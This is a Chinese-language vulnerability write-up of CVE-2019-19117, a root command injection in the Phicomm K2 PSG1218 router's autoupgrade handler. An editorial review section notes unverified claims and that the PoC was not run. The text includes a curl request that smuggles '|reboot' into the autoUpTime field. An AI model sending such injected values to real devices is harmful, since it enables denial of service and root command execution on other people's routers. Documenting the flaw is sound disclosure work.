


# （CVE-2019-19117）PHICOMM 远程代码执行

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Phicomm K2 PSG1218
- 本文讨论：CVE-2019-19117 autoupgrade.lua save autoUpTime注入
- 版本、权限与配置前提：V22.5.9.163，先取得Web会话
- 资料类型：源码分析摘录；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 请求路径被xxx隐藏，无法仅凭本文确定完整接口
- root权限与源码拼接主要截图，文字未给进程权限证据
- 无H1/原始参考/修复；重启是有破坏性的PoC，不应当成普通检测
- 已落实的文本修订：补齐文章标题。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- CVE原公告、root权限及修复范围待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 一、漏洞简介

通过修改HTTP post请求中的内容，在根shell上远程执行命令。

## 二、漏洞影响

PHICOMM K2(PSG1218) V22.5.9.163

## 三、复现过程

受影响的源代码文件：/usr/lib/lua/luci/controller/admin/autoupgrade.lua

受影响的函数：save（）

### 漏洞详情

首先，在通过Web登录身份验证，会话劫持漏洞或弱凭据破解攻击以获取访问权限后，向设备发送精心制作的数据包

```
curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx'
```

在此http数据包中，我们将要执行“重新引导”的命令添加到数据包内容中。



我们可以看到，将'autoUpTime'的值直接分配给变量，而无需检查该值是否被恶意修改，然后发送给服务器。



然后，服务器直接将数据附加到命令，而无需检查数据是否也被恶意修改，从而使攻击者想要执行的命令附加到该命令。

最后，路由器将执行命令“ reboot”，这将导致DoS。